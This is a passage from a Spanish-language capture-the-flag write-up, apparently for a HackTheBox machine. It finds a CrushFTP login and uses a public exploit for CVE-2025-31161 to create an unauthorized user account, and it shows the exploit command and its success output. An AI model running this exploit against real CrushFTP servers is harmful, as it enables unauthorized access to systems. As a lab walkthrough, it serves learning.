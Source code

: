 <figure><img src="../../.gitbook/assets/Captura de pantalla 2025-09-21 125510.png" alt=""><figcaption></figcaption></figure>

Veremos un `login` con un `software` llamado `CrushFTP`, vamos a investigar la version en la que esta corriendo por si fuera una version vulnerable la cual pudieramos explotar de alguna forma.

No veremos ninguna version, pero si veremos un exploit asociado a el en el que podremos crear una cuenta de usuario, aprovechando una vulnerabilidad del software, vamos a probar si funciona.

URL = [CrushFTP CVE-2025-31161](https://github.com/Immersive-Labs-Sec/CVE-2025-31161)

```shell
python3 exploit.py --target_host ftp.soulmate.htb --port 80 --target_user ftp.soulmate.htb --new_user diseo --password diseo
```

Info:

```
[+] Preparing Payloads
  [-] Warming up the target
  [-] Target is up and running
[+] Sending Account Create Request
  [!] User created successfully
[+] Exploit Complete you can now login with
   [*] Username: diseo
   [*] Password: diseo.
```

Veremos que ha funcionado aparentemente, vamos a entrar con dichas credenciales que se acaban de crear, una vez dentro veremos que ha funcionado viendo lo siguiente:
